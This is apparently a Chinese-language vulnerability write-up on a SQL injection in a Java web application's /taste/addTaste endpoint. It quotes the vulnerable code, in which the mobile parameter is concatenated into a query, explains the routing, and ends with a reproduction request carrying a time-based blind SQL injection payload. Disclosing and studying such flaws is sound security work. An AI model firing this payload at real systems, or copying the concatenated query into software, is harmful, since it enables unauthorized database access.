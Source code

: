 ```java
         WxDemoTaste t = new WxDemoTaste();
         t.setCompany(company);
         t.setCreatetime(new Date());
         t.setErrormsg(msg);
         t.setIpaddress(ToolWeb.getIpAddr(this.getRequest()));
         t.setMobile(mobile);
         t.setUsername(userName);
         t.setTastefrom(from);
         t.setOpenid(openid);
         List tList = this.wxDemoTasteModel.getList(WxDemoTaste.class, "select * from wx_demo_taste where mobile ='" + mobile + "'");
         if (tList != null && tList.size() > 0) {
            t.setIsrepart(1);
         } else {
            t.setIsrepart(0);
         }

         t.setStatus(status);
         this.wxDemoTasteModel.saveBean(t);
      }

      return msg;
   }

```

在`343`行代码中，sql语句中直接拼接了 mobile 字符串的值，导致漏洞产生。

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031351065.png)

### 路由分析

在 `TasteController.class` 定义了`Controller `
```java
@Controller(
   controllerKey = {"/taste"}
)
```

- **`@Controller`**: 这个注解用于定义一个控制器，目的是将进入的 HTTP 请求路由到类中的方法。
- **`controllerKey`**: 这是一个属性，允许你指定该控制器映射的 URL 路径。在你的例子中，它将映射到路径 `/taste`。

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031412977.png)

所以访问 `addTaste` 函数的路由为：

```
/taste/addTaste?company=1&userName=1&mobile=1&openid=1&from=0&source=1
```

### 漏洞复现

```
GET /taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27+AND+%28SELECT+8094+FROM+%28SELECT%28SLEEP%289-%28IF%2818015%3E3469%2C0%2C4%29%29%29%29%29mKjk%29+OR+%27KQZm%27%3D%27REcX HTTP/1.1
Host: 127.0.0.1:8088
```
